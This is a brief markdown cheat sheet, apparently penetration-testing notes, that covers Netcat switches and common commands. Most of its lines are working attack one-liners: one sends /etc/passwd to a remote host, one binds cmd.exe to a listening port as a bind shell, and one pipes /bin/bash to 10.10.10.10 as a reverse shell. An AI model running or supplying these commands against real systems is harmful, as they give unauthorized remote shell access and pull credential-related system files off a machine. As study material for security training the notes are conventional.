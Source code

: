 # Tools and Reporting
## Tools
### Netcat
#### Switches
-|-
-n| Dont do DNS resolution
-v| Verbose Output
-l| Listen
-p| Port 
#### Connecting to a TCP/UDP port
```bash
nc -nv 10.10.10.10 4444
```
#### Listening on a TCP/UDP port
```bash
nc -nvlp 4444
```
#### Transfering files with Netcat - Download
```bash
nc -nvlp 4444 > download.exe
```
#### Transfering files with Netcat - Upload
```bash
nc -nv 10.10.10.10 4444 < /etc/passwd
```
#### Bind shell with Netcat
```bash
nc -nvlp 4444 -e cmd.exe
```
#### Reverse Shell with Netcat
```bash
nc -nv 10.10.10.10 4444 -e /bin/bash
```